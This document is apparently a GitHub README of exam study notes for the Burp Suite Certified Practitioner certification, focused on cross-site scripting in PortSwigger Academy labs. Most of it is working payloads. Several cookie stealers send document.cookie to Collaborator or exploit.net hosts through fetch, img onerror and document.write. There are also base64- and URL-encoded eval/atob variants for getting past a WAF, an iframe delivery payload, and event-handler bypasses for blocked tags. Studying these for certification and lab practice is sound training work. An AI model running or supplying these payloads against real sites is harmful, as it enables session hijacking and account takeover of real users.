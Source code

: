 
# Burp-Suite-Certified-Practitioner-Exam-Study
PortSwigger Academy - Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

### Cookie Stealers

### Reflected XSS in Search with WAF
>Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://Collaborator.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 formated strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  

![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)  

>Hosting the **IFRAME** with eval() and fetch() payload on web exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
![(Deliver reflected xss to steal victim cookie.](deliver-reflected-xss-to-steal-victim-cookie.png)

### Reflected XSS in Search with blocked Tags
>Reflected XSS into HTML context with most tags and attributes blocked Bypass WAF
<sup>Body and event **'onresize'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
<sup>Body and event **'onpopstate'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```
[onpopstate event (XSS)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

[Methodology to identify allowed tags and events](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

#### URL and Base64 online encoders and decoders  
[URL Decode and Encode](https://www.urldecoder.org/)  
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

#### Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

#### Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

#### Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

#### Fetch API Cookie Stealer in blog comment
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
